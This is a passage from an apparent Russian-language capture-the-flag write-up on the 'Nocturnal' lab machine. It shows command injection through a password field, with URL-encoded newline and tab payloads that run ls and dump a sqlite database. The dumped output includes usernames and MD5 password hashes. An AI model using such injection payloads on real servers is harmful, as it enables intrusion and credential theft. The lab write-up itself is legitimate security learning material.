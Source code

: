Поэтому можно в момент ввода пароля в командную строку прервать ввод, ввести новую команду и получить вывод из неё, если сообщить в пароле что-то вроде: "энтер, команда, энтер"

Вместо пробелов можно использовать символ "tab" (%09)

Тогда мы можем совершить любой запрос в командную строку.

К примеру, команда `%0Abash%09"ls"%0A` конвертируется в `bash "ls"` и соответственно выполняется на сервере. Так мы можем найти любой файл на сервере.

Есть только одна проблема - в директории home есть пользователь tobias, и туда доступа скрипту нет (`%0Abash%09"ls%09%2Fhome%2Ftobias"%0A`)

Однако мы можем найти базу данных sqlite при помощи `%0Abash%09-c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump"%0A`.


Если её выгрузить, можно получить интересные данный сниппет:

```sql

sh: 4: backups/backup_2025-05-30.zip: Permission denied

PRAGMA foreign_keys=OFF;

BEGIN TRANSACTION;

CREATE TABLE users (

    id INTEGER PRIMARY KEY AUTOINCREMENT,

    username TEXT NOT NULL UNIQUE,

    password TEXT NOT NULL

);

INSERT INTO users VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');

INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');

INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');

INSERT INTO users VALUES(6,'kavi','f38cde1654b39fea2bd4f72f1ae4cdda');

INSERT INTO users VALUES(7,'e0Al5','101ad4543a96a7fd84908fd0d802e7db');

INSERT INTO users VALUES(8,'iso','e906ec779ab4ac6cbfdf30db5cbb3f1c');

INSERT INTO users VALUES(9,'envy','2cfd4560539f887a5e420412b370b361');

INSERT INTO users VALUES(10,'test','098f6bcd4621d373cade4e832627b4f6');

INSERT INTO users VALUES(11,'kali','d6ca3fd0c3a3b462ff2b83436dda495e');

INSERT INTO users VALUES(12,'admin''','c4ca4238a0b923820dcc509a6f75849b');

INSERT INTO users VALUES(13,'juris','de15806759cb3732f16d4f49ff58be01');

INSERT INTO users VALUES(14,'admin ','21232f297a57a5a743894a0e4a801fc3');

INSERT INTO users VALUES(15,'admin  ','21232f297a57a5a743894a0e4a801fc3');

CREATE TABLE uploads (

    id INTEGER PRIMARY KEY AUTOINCREMENT,

```